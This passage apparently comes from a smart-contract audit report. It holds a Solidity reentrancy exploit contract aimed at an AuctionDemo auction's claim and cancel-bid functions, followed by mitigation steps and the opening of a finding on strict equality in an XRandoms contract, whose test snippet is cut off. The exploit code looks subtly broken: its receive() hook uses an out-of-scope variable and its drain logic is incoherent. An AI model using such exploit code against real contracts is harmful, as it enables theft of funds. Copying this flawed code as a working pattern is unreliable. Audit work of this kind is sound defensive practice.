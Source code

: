 **Exploit Reentrancy**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./AuctionDemo.sol";

contract tAuctionDemo {

   AuctionDemo public x1;

   constructor(AuctionDemo _x1) {

      x1 = AuctionDemo(_x1);

   }

   function testReen() public payable {
      x1.claimAuction{value: 2 ether}(uint256(24));
      x1.cancelBid{value: 2 ether}(uint256(24), uint256(1));
      x1.cancelAllBids{value: 2 ether}(uint256(24));
   }
   
   receive() external payable {
    
      msg.sender.transfer(payable(address(_x1)).balance);

   }

   }
```
## Tools Used
VS Code.
## Recommended Mitigation Steps
All functions that are not internal and are making a call should have a reentrancy guard added to them.
Checks-Effects-Interactions should be applied to the functions. 
Balance updates should be made at the beginning of the call.
The actual call should be made at the end of the function.
So that the balance is already updated first and reentrancy is not possible.
## [L-11] Incorrect equality in XRandoms contract
## Impact
Use of strict equalities that can be easily manipulated by an attacker.
Dangerous strict equality is where the use of strict equality (==) for comparison may lead to unexpected or potentially unsafe behaviour due to issues like type conversions, precision, or external input. 
## Proof of Concept
Here is a Proof of Concept (POC) for the incorrect equality in the getWord function:
```sol
pragma solidity ^0.8.19;

contract TestRandomPool {
    randomPool rp = new randomPool();

    function testGetWord() public {
        // This will return the first word in the list, "Acai"
        string memory word1 = rp.getWord(0);
        assert(keccak256(abi.encodePacked(word1)) == keccak256(abi.encodePacked("Acai")));
```